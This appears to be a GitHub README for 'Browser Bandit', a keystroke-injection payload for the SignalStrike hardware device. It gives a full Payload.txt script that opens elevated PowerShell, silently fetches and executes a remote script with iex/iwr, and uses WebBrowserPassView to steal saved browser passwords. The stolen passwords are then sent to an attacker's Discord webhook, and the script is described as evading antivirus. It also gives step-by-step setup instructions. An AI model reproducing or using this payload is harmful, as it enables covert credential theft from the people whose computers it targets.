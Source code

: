 # **Browser Bandit (SignalStrike)**

## Requirements:

- **Hardware**: Code-382 SignalStrike ([store](https://code-382.eu/index.php/product/signalstrike/))
- **Attacker**: Windows/Linux/MacOS/Android/iOS with Discord installed
- **Target**: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 SignalStrike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a `.txt` file, which is then transmitted to the attacker’s Discord Webhook.


## 1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

1. Create a new Discord server (if you don’t have one already).
2. Right-click on the server icon and select **Server Settings**.
3. Navigate to **Integrations > New Webhook**.
4. Copy the webhook link and save it somewhere safe for later use.

## 2. Download `Payload.txt`

Next, you need to download `Payload.txt`. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the `Payload.txt` file, locate line 12 and replace `<DISCORD WEBHOOK HERE>` with your actual Discord webhook URL (without the angle brackets `<>`).

### `Payload.txt`

```
DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER
```

3. Upload Your Payload to SignalStrike

1. Plug in your SignalStrike device.
2. Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
3. Open a web browser and go to 192.168.4.1 to access the control panel.
4. Create a new payload and name it "Browser Bandit".
5. Paste your modified Payload.txt (with the webhook) into the text box provided.
6. Save the payload and execute it.


